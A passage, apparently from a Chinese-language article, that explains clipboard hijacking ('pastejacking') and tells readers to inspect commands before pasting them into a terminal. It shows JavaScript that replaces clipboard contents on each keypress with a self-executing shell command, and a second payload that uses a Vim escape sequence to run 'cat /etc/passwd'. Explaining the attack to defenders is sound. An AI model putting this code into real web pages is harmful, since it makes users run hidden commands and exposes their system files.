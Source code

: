 ```js
  try {
    var successful = document.execCommand("copy");
    var msg = successful ? "successful" : "unsuccessful";
    console.log("Copying text command was " + msg);
  } catch (err) {
    console.log("Oops, unable to copy");
  }

  document.body.removeChild(textArea);
}

document.addEventListener("keydown", function (event) {
  var ms = 800;
  var start = new Date().getTime();
  var end = start;
  while (end < start + ms) {
    end = new Date().getTime();
  }
  copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
});
```

防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些 PE 病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用 Vim 作为验证，譬如如下的攻击方式：

```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

它会利用 Vim 的 Macro 来获取你的用户密码等。如果你用的是 ITerm，它会提醒你那些自动利用换行来执行的命令: ![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)

